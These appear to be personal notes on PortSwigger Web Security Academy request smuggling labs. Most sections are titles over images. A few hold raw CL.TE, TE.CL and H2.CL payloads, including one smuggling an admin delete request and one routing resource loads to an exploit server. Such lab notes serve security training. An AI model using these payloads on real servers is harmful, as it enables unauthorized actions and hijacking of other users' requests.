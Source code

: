 ____

# HTTP request smuggling, confirming a CL.TE vulnerability via differential responses


```
POST / HTTP/1.1
Host: 0ad900fc04a5e02480c97b4300e60060.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 39
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

![[Pasted image 20240815043936.png]]


# HTTP request smuggling, confirming a TE.CL vulnerability via differential responses

In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.

Using Burp Repeater, issue the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

![[Pasted image 20240815060930.png]]

# Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability

![[Pasted image 20240815063631.png]]

```
tRANSFER-ENCODING: chunked
Connection: close

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
X-Ignore: X
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Host: localhost

x=
```

# Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability

![[Pasted image 20240815131026.png]]

# Exploiting HTTP request smuggling to reveal front-end request rewriting

The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the `X-Forwarded-For` header but has a different name.

![[Pasted image 20240815133129.png]]


![[Pasted image 20240815133321.png]]

# Exploiting HTTP request smuggling to capture other users' requests

![[Pasted image 20240816042904.png]]

![[Pasted image 20240816042931.png]]

# Exploiting HTTP request smuggling to deliver reflected XSS

![[Pasted image 20240816045156.png]]

# Response queue poisoning via H2.TE request smuggling

![[Pasted image 20240817051727.png]]

# H2.CL request smuggling

- CL.0 desync: h2CL|GET /favicon.ico
![[Pasted image 20240817070314.png]]

```
POST / HTTP/2
Host: 0ae4007e047995e985021e1b0017001d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a85002a042a95da85241d7a010e007b.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```